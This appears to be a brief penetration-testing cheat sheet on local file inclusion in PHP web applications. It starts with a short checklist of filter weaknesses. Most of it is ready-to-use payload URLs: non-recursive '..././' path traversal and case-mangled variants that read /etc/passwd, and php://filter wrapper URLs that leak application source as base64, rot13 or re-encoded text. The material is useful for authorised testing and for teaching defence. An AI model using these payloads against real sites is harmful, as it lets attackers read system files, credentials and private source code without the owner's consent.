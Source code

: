 ___
Things to consider:

- Are filters applied recursively ?
- Insufficient character blacklist
- Not using allow lists
- Can it properly handle encoded payloads?

### **Basic**
**Non-recursive filter bypass**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././etc/passwd
```
**Mangle capitals & operators for filter bypasses**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././eTc/p+AsS+wd
```
### **PHP Wrappers**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md

- Leak php code instead of executing it.
```Python
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```